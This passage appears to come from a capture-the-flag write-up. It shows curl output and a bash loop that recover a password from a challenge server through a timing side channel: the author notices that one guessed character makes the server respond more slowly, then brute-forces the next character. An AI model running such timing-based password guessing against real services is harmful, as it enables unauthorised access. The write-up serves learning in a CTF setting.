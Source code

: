 	> 
	< HTTP/1.1 200 OK
	< Server: nginx/1.10.0 (Ubuntu)
	< Date: Sun, 26 Feb 2017 05:17:33 GMT
	< Content-Length: 31
	< Connection: keep-alive
	< 
	* Connection #0 to host ctfclubiiit.tk left intact
	Time taken: 0.46817110473251855%


This one entry in particular stands out. 

	*   Trying 54.175.180.76...
	* Connected to ctfclubiiit.tk (54.175.180.76) port 8080 (#0)
	> GET / HTTP/1.1
	> Host: ctfclubiiit.tk:8080
	> User-Agent: curl/7.47.0
	> Accept: */*
	> password:k
	> 
	< HTTP/1.1 200 OK
	< Server: nginx/1.10.0 (Ubuntu)
	< Date: Sun, 26 Feb 2017 05:17:15 GMT
	< Content-Length: 30
	< Connection: keep-alive
	< 
	* Connection #0 to host ctfclubiiit.tk left intact
	Time taken: 1.7484813706349838* Rebuilt URL to: ctfclubiiit.tk:8080/

The time taken for password:k is inordinately larger than the time taken for other strings. We might be onto something here. 

	$ for i in k{a..z} k{A..Z}
	do
	curl -s ctfclubiiit.tk:8080 -H password:$i -v
	done
	* Rebuilt URL to: ctfclubiiit.tk:8080/
	*   Trying 54.175.180.76...
	* Connected to ctfclubiiit.tk (54.175.180.76) port 8080 (#0)
	> GET / HTTP/1.1
	> Host: ctfclubiiit.tk:8080
	> User-Agent: curl/7.47.0
	> Accept: */*
	> password:ka
	> 
	...
	< HTTP/1.1 200 OK
	< Server: nginx/1.10.0 (Ubuntu)
	< Date: Sun, 26 Feb 2017 05:22:17 GMT
	< Content-Length: 28
	< Connection: keep-alive
	< 
	* Connection #0 to host ctfclubiiit.tk left intact
	Time taken: 0.71633441394593* Rebuilt URL to: ctfclubiiit.tk:8080/
	*   Trying 54.175.180.76...
	* Connected to ctfclubiiit.tk (54.175.180.76) port 8080 (#0)
	> GET / HTTP/1.1
	> Host: ctfclubiiit.tk:8080
	> User-Agent: curl/7.47.0
	> Accept: */*
	> password:ky
	> 
	< HTTP/1.1 200 OK
	< Server: nginx/1.10.0 (Ubuntu)
	< Date: Sun, 26 Feb 2017 05:22:17 GMT